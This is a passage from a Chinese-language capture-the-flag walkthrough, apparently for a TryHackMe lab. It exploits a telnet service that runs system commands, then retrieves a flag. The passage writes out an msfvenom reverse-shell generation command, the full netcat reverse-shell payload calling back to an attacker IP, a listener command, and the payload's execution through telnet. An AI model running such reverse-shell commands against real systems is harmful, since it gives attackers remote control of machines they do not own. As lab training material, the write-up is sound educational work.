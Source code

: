 ```bash
.RUN ping 10.11.15.168 -c 1
```

![image-20230316202128641](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316202128641.png)

查看本地机上的tcpdump侦听器所侦听到的流量变化（以确认刚才的ping命令是否执行成功）。

![image-20230316202320093](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316202320093.png)

> 我们能够在目标机的telnet服务器上执行系统命令

![image-20230316202552462](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316202552462.png)

在本地攻击机上使用msfvenom 生成一个反向shell有效载荷：

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.11.15.168 lport=4444 R

#-p        有效负载类型
#lhost     我们的本地机IP地址
#lport     要侦听的端口（本地机上的端口）
#R         以原始格式(Raw)导出负载
```

![image-20230316204028684](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316204028684.png)

> 生成的反向shell有效载荷内容为：mkfifo /tmp/svqcho; nc 10.11.15.168 4444 0\</tmp/svqcho | /bin/sh >/tmp/svqcho 2>&1; rm /tmp/svqcho

在本地攻击机上启动netcat监听器：

```bash
nc -lvp 4444
```

![image-20230316205710097](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316205710097.png)

在telnet会话中运行之前生成的反向shell有效载荷：

```bash
.RUN mkfifo /tmp/svqcho; nc 10.11.15.168 4444 0</tmp/svqcho | /bin/sh >/tmp/svqcho 2>&1; rm /tmp/svqcho
```

![image-20230316205924630](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316205924630.png)

我们成功在本地机上获得一个shell，使用这个shell界面查看目标机上的flag.txt文件内容：

![image-20230316210025006](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316210025006.png)

> flag.txt文件的内容为：THM{y0u\_g0t\_th3\_t3ln3t\_fl4g} 。

![image-20230316202824361](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316202824361.png)

## FTP服务简介
